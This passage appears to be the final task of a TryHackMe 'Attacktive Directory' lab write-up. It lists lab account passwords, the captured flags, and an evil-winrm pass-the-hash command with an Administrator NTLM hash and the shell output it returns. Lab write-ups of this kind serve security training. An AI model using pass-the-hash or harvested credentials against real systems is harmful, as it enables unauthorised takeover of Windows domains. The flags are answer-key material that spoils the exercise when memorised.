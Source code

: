 * * * 

## Task 8 - Flag Submission Flag Submission Panel 

Cool site: https://wadcoms.github.io/#

Submit the flags for each user account. They can be located on each user's desktop.

##   Answer the questions below

##  svc-admin 

- credentials user:svc-admin pass:management2005
- TryHackMe{K3rb3r0s_Pr3_4uth}

##  backup

- credentials user:backup pass:backup2517860
- TryHackMe{B4ckM3UpSc0tty!}

##  Administrator

- credentials user:Administrator pass: We can Pass the Hash with below command.

```shell
┌──(0xskar㉿cocokali)-[~/thm/AttacktiveDirectory]
└─$ evil-winrm -i 10.10.132.136 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

- TryHackMe{4ctiveD1rectoryM4st3r}

* * * 